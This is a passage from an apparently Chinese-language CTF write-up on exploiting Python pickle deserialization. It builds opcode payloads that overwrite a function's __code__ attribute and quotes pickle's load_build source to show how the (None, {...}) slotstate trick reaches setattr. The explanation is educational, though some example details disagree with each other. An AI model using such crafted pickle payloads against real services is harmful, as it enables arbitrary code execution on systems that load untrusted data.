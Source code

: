 因此这里的目标是修改 SnakeWindow 函数。

#### 第一步：修改函数的 `__code__` 属性
一般情况下，修改成员变量可以使用 DICT 和 BUILD 指令，也就是 `db` 操作码。
```py
p = PROTO + b'\x04' + \
    GLOBAL + b'__main__\nSnakeWindow\n' + \
    MARK + \
        UNICODE + b'__code__\n' + \
        UNICODE + b'cccc\n' + \
        b'db' + \
    STOP
```
但这段代码只会在 SnakeWindow 实例的 `__dict__` 属性中添加一个键值对， 并不会将真正的 `__code__` 属性进行覆盖。
```py
>>>a = loads(p)
>>>a.__code__
<code object SnakeWindow at 0x2f90790, file "/mnt/share/project/ctf_archives/test/python_sec/pickle/ångstromCTF 20214/snake/test.py", line 54>
>>>a.__dict__
{'__code__': 'bbbb'}
```
BUILD 的行为在 pickle 源代码中的 load_build 函数中定义：
```py
    def load_build(self):
        stack = self.stack
        state = stack.pop()
        inst = stack[-1]
        setstate = getattr(inst, "__setstate__", None)
        if setstate is not None:
            setstate(state)
            return
        slotstate = None
        if isinstance(state, tuple) and len(state) == 2:
            state, slotstate = state
        if state:
            inst_dict = inst.__dict__
            intern = sys.intern
            for k, v in state.items():
                if type(k) is str:
                    inst_dict[intern(k)] = v
                else:
                    inst_dict[k] = v
        if slotstate:
            for k, v in slotstate.items():
                setattr(inst, k, v)
    dispatch[BUILD[0]] = load_build
```
由于 code 类并没有 `__setstate__` 函数，因此不会调用 setstate 函数。

如果 state 不为 False 或者 None 的话，就会进入 `__dict__` 的处理流程，得到的就是上面的结果，无法覆盖正常的 `__code__` 属性。

因此我们需要让 state 的判断为 None 或者 False。state 来源于上一个判断中 state 的第一个元素。
```py
if isinstance(state, tuple) and len(state) == 2:
    state, slotstate = state
```
又因为进入下面的赋值时，我们需要 k 和 v 分别为 `__code__` 和要篡改的值。
```py
if slotstate:
    for k, v in slotstate.items():
        setattr(inst, k, v)
```
所以我们可以将 state 赋值为：
```py
(None,{'__code__',xxxxx})
```